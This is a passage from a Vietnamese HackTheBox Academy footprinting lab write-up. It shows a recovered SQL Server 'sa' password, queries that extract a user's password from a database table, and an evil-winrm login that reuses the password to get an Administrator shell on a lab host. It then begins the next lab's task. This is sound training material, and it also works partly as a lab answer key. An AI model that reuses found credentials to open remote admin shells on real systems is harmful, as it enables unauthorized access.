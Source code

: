 Đọc nội dung của `important.txt`:
```zsh
❯ cat important.txt
sa:87N1ns@slls83
```

Và chúng ta vào lại cơ sở dữ liệu, lần đầu vào bằng sa thì sai, đọc lại gợi ý, tôi nghĩ mình nên run as admin và nhập password bằng tay :( `87N1ns@slls83 `, nó sẽ như này:

![](<4_Footprinting/images/2.png>)
Việc đơn giản chúng ta tạo một query mới thôi:
```sql
use accounts; -- chạy luôn thằng này
select name, password from dbo.devsacc where name = 'HTB'; -- chạy nữa là done
```

![](<4_Footprinting/images/3.png>)

và thế là hết. happy hacking......... à mà khoan, nếu pass của sa trùng với pass của admin thì evil-winrm sang luôn shell admin nhỉ? hehehe

```zsh
❯ evil-winrm -u Administrator -p '87N1ns@slls83' -i 10.129.244.30
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
winmedium\administrator
```

happy hecking.......

# Footprinting Lab - Hard

The third server is an MX and management server for the internal network. Subsequently, this server has the function of a backup server for the internal accounts in the domain. Accordingly, a user named `HTB` was also created here, whose credentials we need to access.
Enumerate the server carefully and find the username "HTB" and its password. Then, submit HTB's password as the answer.

## Phân tích
- The third server is an MX and management server for the internal network
- this server has the function of a backup server for the internal accounts in the domain
- user named `HTB` was also created here

## Recon
